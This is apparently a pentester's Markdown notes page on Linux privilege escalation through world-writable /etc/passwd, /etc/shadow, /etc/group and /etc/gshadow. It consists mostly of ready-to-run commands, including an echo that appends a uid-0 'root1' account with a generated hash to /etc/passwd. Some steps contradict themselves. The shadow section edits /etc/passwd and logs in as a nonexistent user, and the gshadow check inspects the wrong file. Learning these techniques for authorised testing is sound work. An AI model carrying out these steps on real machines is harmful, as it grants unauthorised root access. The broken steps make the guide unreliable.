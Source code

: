 
 
##  **Default Permissions of Important Files in Linux**

#### Understanding file permissions is crucial for privilege escalation and security assessments. Below are the default permissions of critical system files in Linux:

the default permissions of critical system files in Linux:

| **File**       | **Default Permissions** | **Owner** | **Group** | **Purpose**                                     |
| -------------- | ----------------------- | --------- | --------- | ----------------------------------------------- |
| `/etc/passwd`  | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores user account details (but not passwords) |
| `/etc/shadow`  | `-rw------- (600)`      | `root`    | `shadow`  | Stores hashed passwords (only root can access)  |
| `/etc/group`   | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores group information                        |
| `/etc/gshadow` | `-rw------- (600)`      | `root`    | `shadow`  | Stores group passwords (if any)                 |
| `/etc/crontab` | `-rw-r--r-- (644)`      | `root`    | `root`    | System-wide cron jobs                           |
| `/etc/sudoers` | `-r--r----- (440)`      | `root`    | `root`    | Controls sudo access                            |
## Privilege Escalation via sensitive files

### 1. Privilege Escalation through **/etc/passwd**


**If we got write permission for other user on /etc/passwd  then we can create hash and add into it ** 

#####  1.1 check the permission of /etc/passwd
```bash
ls -lha /etc/passwd
```

![](Attachments/attachments/Pasted%20image%2020250221183500.png)

#####  1.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)

##### 1.3 Edit The /etc/passwd  

read  the /etc/passwd file Then 
Clone the root user information edit root to root1 (we can also add only passwd hash for root user)
After that paste into /etc/passwd file and also add the created hash password.( you can use any editor but here I am going to use echo )
```bash
echo 'root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash' >> /etc/passwd 
```

![](Attachments/attachments/Pasted%20image%2020250221182917.png)

Apart of hash we can also use 0 (zero) for empty password 

##### 1.4 Then login with *root1* user using our password 
![](Attachments/attachments/Pasted%20image%2020250221192427.png)

---


### 2. Privilege Escalation through **/etc/shadow**

**If we got write permission for other user on /etc/shadow then we can create hash and add into it or we can go with crack the hash using password cracking tools  ** 

#####  2.1 check the permission of /etc/shadow
```bash
ls -lha /etc/shadow
```

![](Attachments/attachments/Pasted%20image%2020250221190658.png)


#####  2.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


##### 2.3 Edit The /etc/shadow file 
Replace root hash with our created hash 

```bash
vim /etc/passwd    #will open vim editor then replace root password hash
```

![](Attachments/attachments/Pasted%20image%2020250221192122.png)
![](Attachments/attachments/Pasted%20image%2020250221192032.png)

##### 2.4 Then login with root1 user using our password

```bash
su - root1
```

![](Attachments/attachments/Pasted%20image%2020250221192427.png)


---


### 3. Privilege Escalation through **/etc/group**

**if we got write permission for other user on /etc/group then we can add user into group**
#####  3.1 check the permission of /etc/group
```bash
ls -lha /etc/group
```

![](Attachments/Pasted%20image%2020250221193720.png)


##### 3.2 Edit the /etc/group
Add user into **wheel/sudo** group (if system is debian base then add into sudo group or if system is red-hat base then add into wheel group)
Here I am using debian base system so I'll add user into sudo group 

```bash
vim /etc/group
```

![](Attachments/Pasted%20image%2020250221200113.png)

</br>
![](Attachments/Pasted%20image%2020250221200237.png)


##### 3.3  Reset Connection
Firstly we should logout or reset the connection after that we can get root access

```bash
exit
```

![](Attachments/Pasted%20image%2020250221200849.png)

##### 3.4  login with normal user / get Shell
![](Attachments/Pasted%20image%2020250221201128.png)

then get root access using **sudo su** command
```bash
sudo su
```

![](Attachments/Pasted%20image%2020250221201305.png)

---

### 4. Privilege Escalation through **/etc/gshadow**
if we got write permission for other user on **/etc/gshadow** then we can add hash for **sudo/wheel** group to get root access

#####  4.1 check the permission of **/etc/gshadow**
```bash
ls -lha /etc/shadow
```

![](Attachments/Pasted%20image%2020250221204324.png)


#####  4.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


#####  4.3 edit the /etc/gshadow
edit the **/etc/gshadow** and add generated has for** **sudo/wheel** group. ( according to os *debian = sudo*  or *red-hat = wheel *)

```bash
vim /etc/gshadow
```

![](Attachments/Pasted%20image%2020250221205551.png)
![](Attachments/Pasted%20image%2020250221205227.png)

##### 4.4  login with **sudo / wheel** group 

```bash
sg sudo #acording to os sudo / wheel
```

After that we will get all access 
![](Attachments/Pasted%20image%2020250221210301.png)

Then run **sudo su** command 
```bash
sudo su 
```

![](Attachments/Pasted%20image%2020250221210441.png)
